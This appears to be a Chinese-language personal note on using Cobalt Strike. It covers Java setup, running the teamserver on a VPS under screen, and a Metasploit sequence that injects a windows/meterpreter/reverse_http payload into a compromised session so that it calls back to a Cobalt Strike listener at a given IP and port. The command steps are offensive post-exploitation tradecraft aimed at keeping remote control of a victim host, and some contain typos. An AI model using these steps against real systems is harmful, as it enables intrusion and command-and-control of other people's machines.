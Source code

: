 ```yaml
---

---
```




#21-08-27 **Cobalt Strike**用法

cs可以在Ubuntu，centos，Windows2008,2012,2019，win7，win10，win11，都可以运行

只要可以执行 java -version 成功

centos安装  yum instal openjdk@13 unzip

cs4.2 最好使用jdk11以上

![](#21-08-27 Cobalt Strike用法\image-20210827140254423.png)

![image-20210827140409050](#21-08-27 Cobalt Strike用法\image-20210827140409050.png)

![image-20210827160438311](#21-08-27 Cobalt Strike用法\image-20210827160438311.png)

**1，bg 会话**

**2.调用payload_inject 模块**

use exploit/windows/local/payload_inject

**3.在该模块上配置与cobalt strike上为同样类型的payload**

set payload windows/meterpreter/reverse_http**（cs程序只支持http和https协议）**

**4.设置 DisablePayloadHandler 为 True，此选项会让 Metasploit Framework 避免在其内起一个 handler 来服务你的 payload 连接，也就是告诉 Metasploit Framework 说我们已经建立了监听器，不必再新建监听器了。**

set disablepayloadhandler true

**5.设置 lhost 和 lport 为 Cobalt Strike 的监听 IP 与端口**

set lhosts 192.168.21.43

set lport 8080

![image-20210827160524003](#21-08-27 Cobalt Strike用法\image-20210827160524003.png)

**6，运行run**

![image-20210827162931510](#21-08-27 Cobalt Strike用法\image-20210827162931510.png)

![image-20210827163040114](#21-08-27 Cobalt Strike用法\image-20210827163040114.png)

![image-20210827163212188](#21-08-27 Cobalt Strike用法\image-20210827163212188.png)

![image-20210827173045062](#21-08-27 Cobalt Strike用法\image-20210827173045062.png)

![image-20210827174242671](#21-08-27 Cobalt Strike用法\image-20210827174242671.png)





#cs在vps上如何后台运行

在vps上安装screen

apt install screen	

screen -S cs （随便起的名字）切换到screen 执行

screen 文件中写的默认端口是1998

![image-20210901190549230](#21-08-27 Cobalt Strike用法/image-20210901190549230.png) 

然后再进入cs目录启动teamserver

![image-20210901190716774](#21-08-27 Cobalt Strike用法/image-20210901190716774.png)

![image-20210901193355762](#21-08-27 Cobalt Strike用法/image-20210901193355762.png)

![image-20210901193502662](#21-08-27 Cobalt Strike用法/image-20210901193502662.png)

强制切入 screen -rd cs

